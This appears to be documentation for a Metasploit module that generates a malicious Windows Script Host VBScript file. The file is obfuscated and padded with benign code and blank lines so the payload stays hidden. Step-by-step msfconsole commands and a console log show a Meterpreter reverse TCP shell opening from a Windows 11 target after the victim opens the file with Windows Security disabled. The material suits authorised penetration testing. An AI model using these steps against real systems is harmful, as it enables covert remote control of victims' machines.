 ## Vulnerable Application

This module creates a Windows Script Host (WSH) VBScript (.vbs) file.

This module has been tested successfully on:

* Microsoft Windows 7 Professional SP1 (x86_64)
* Microsoft Windows 11 Professional 21H2 (x86_64)


## Options

### FILENAME

The VBScript file name. (Default: `msf.vbs`).

### OBFUSCATE

Enable VBScript obfuscation. (Default: `true`)


## Advanced Options

### PrependBenignCode

Prepend several lines of benign code at the start of the file. (Default: `true`)

### PrependNewLines

Prepend new lines before the malicious VBScript. (Default: `100`)


## Verification Steps

On the Metasploit host:

1. Start msfconsole
1. Do: `use exploit/windows/fileformat/windows_script_host_vbscript`
1. Do: `set filename [filename.vbs]`
1. Do: `set payload [payload]`
1. Do: `set lhost [lhost]`
1. Do: `set lport [lport]`
1. Do: `run`
1. Do: `handler -p [payload] -P [lport] -H [lhost]`

On the target Windows machine:

1. Ensure Windows Security is disabled
1. Ensure Windows Registry `HKCU` and `HKLM` key `SOFTWARE\Microsoft\Windows Script Host\Settings\Enabled` is not present or set to 1
1. Open the `msf.vbs` file
1. If prompted to choose a program to open the file, select Windows Script Host


## Scenarios

### Microsoft Windows 11 Professional 21H2 (x86_64)

```
msf > use exploit/windows/fileformat/windows_script_host_vbscript
[*] No payload configured, defaulting to cmd/windows/http/x64/meterpreter/reverse_tcp
msf exploit(windows/fileformat/windows_script_host_vbscript) > set payload cmd/windows/http/x64/meterpreter/reverse_tcp
payload => cmd/windows/http/x64/meterpreter/reverse_tcp
msf exploit(windows/fileformat/windows_script_host_vbscript) > set lhost 192.168.200.130
lhost => 192.168.200.130
msf exploit(windows/fileformat/windows_script_host_vbscript) > set lport 4444
lport => 4444
msf exploit(windows/fileformat/windows_script_host_vbscript) > run
[+] msf.vbs stored at /root/.msf4/local/msf.vbs
msf exploit(windows/fileformat/windows_script_host_vbscript) > handler -p cmd/windows/http/x64/meterpreter/reverse_tcp -P 4444 -H 192.168.200.130
[*] Payload handler running as background job 0.

[*] Started reverse TCP handler on 192.168.200.130:4444 
msf exploit(windows/fileformat/windows_script_host_vbscript) > [*] Sending stage (203846 bytes) to 192.168.200.169
[*] Meterpreter session 1 opened (192.168.200.130:4444 -> 192.168.200.169:49977) at 2025-07-22 11:56:01 -0400

msf exploit(windows/fileformat/windows_script_host_vbscript) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : WIN-11-PRO-X64
OS              : Windows 11 21H2 (10.0 Build 22000).
Architecture    : x64
System Language : en_GB
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
```
